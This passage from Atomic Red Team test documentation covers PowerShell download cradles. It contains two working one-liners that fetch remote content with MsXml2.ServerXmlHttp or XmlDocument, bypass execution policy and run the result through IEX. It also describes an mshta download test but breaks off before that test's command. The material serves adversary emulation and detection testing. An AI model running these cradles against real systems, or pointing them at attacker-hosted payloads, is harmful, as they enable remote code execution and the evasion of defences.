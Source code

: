 **Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1|

#### Attack Commands: Run with `command_prompt`!

```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

<br/>
<br/>

## Atomic Test #8 - Powershell XML requests

Powershell xml download request. Upon execution, "Download Cradle test success!" will be dispalyed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.xml|

#### Attack Commands: Run with `command_prompt`!

```cmd
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```

<br/>
<br/>

## Atomic Test #9 - Powershell invoke mshta.exe download

Powershell invoke mshta to download payload. Upon execution, a new PowerShell window will be opened which will display "
Download Cradle test success!".

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/mshta.sct|
